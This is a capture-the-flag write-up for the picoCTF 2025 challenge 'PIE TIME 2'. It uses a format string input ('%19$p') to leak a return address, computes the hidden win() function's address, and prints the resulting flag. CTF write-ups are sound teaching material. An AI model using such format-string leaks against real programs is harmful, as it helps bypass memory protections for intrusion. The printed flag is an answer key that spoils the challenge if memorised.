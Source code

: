 # PicoCTF 2025

## PIE TIME 2

> Can you try to get the flag? I'm not revealing anything anymore!!  
> Author: DARKRAICG492  
> [`PIE TIME 2`](PIE_TIME_2)

**Tags:** binary_exploitation

---

## 🧾 Overview

This is a follow-up to PIE TIME. This time, the binary doesn't give us the address of `main()` up front, but there's a format string vulnerability in how it prints our input. Our goal is to leak a return address using `%p`, use that to calculate the address of the hidden `win()` function, and jump to it to get the flag.

---

## ✅ Solution

I connected to the challenge with:

```bash
nc rescued-float.picoctf.net 50509
```

When it asked for my name, I used the format string:

```
%19$p
```

The program printed:

```
0x5643dfe0f441
```

This leaked address is the return address to `main()`, at offset `<main+65>`. From looking at the binary's symbols, I knew that the offset between this return address and the start of `win()` is `0xd7` (215 in decimal).

So I calculated the address of `win()` like this:

```bash
python3 -c "print(hex(0x5643dfe0f441 - 0xd7))"
```

Output:

```
0x5643dfe0f36a
```

When the program prompted:

```
 enter the address to jump to, ex => 0x12345:
```

I entered:

```
0x5643dfe0f36a
```

And got:

```
You won!
picoCTF{p13_5h0u1dn'7_134k_dc29b3d5}
```

---

## Flag

```
picoCTF{p13_5h0u1dn'7_134k_dc29b3d5}
```
